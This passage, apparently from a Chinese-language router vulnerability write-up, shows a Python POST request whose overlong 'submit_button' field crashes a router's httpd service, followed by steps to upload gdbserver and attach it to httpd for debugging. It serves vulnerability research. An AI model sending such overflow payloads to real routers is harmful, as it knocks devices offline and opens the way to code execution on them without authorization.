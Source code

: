 没有反应

测试POST请求

```python
import requests

url = "https://192.168.1.1/guest_logout.cgi"
payload = {"cmac":"12:af:aa:bb:cc:dd","submit_button":"status_guestnet.asp"+'a'*100,"cip":"192.168.1.100"}

requests.packages.urllib3.disable_warnings()
requests.post(url, data=payload, verify=False, timeout=1)
```

发送完web页面就奔溃了（`reboot`重启路由器可以重新打开httpd服务）

[![img](https://p4.ssl.qhimg.com/t01b335bfd62bfb566b.jpg)](https://p4.ssl.qhimg.com/t01b335bfd62bfb566b.jpg)

可以判断参数是通过POST传递的

#### 程序调试

可以从[海特实验室搜集的各种平台的gdbserver](https://gitee.com/h4lo1/HatLab_Tools_Library/tree/master/静态编译调试程序/gdbserver)中下载一个gdbserver上传到路由器上去，然后挂载到httpd进程上对其进行调试

但是里面的gdbserver太多了，最后试出`gdbserver-7.12-mipsel-mips32rel2-v1-sysv`可以用

1. 每次打崩服务后重启ip地址都可能变化，查看虚拟机在局域网中的ip地址并且用python打开web服务Shell1:

    ```shell
     ifconfig
     python -m SimpleHTTPServer 8000
    ```

2. telnet连接路由器后从虚拟机下载gdbserver后附加到httpd进程上Shell2（路由器）：

    ```shell
     cd /tmp
     wget "http://192.168.1.107:8000/mips/gdbserver-7.12-mipsel-mips32rel2-v1-sysv"
     chmod +x gdbserver-7.12-mipsel-mips32rel2-v1-sysv
     ps | grep "httpd"
     ./gdbserver-7.12-mipsel-mips32rel2-v1-sysv :1234 --attach 350
    ```

    [![img](https://p5.ssl.qhimg.com/t01025bed08aa0faf80.jpg)](https://p5.ssl.qhimg.com/t01025bed08aa0faf80.jpg)

    （在附加到342进程时无法调试）

3. 使用gdb-multiarch加载httpd文件进行远程调试Shell3：

    ```
     gdb-multiarch httpd1
    
     set architecture mips
     set endian little
     target remote 192.168.1.1:1234
     c
    ```
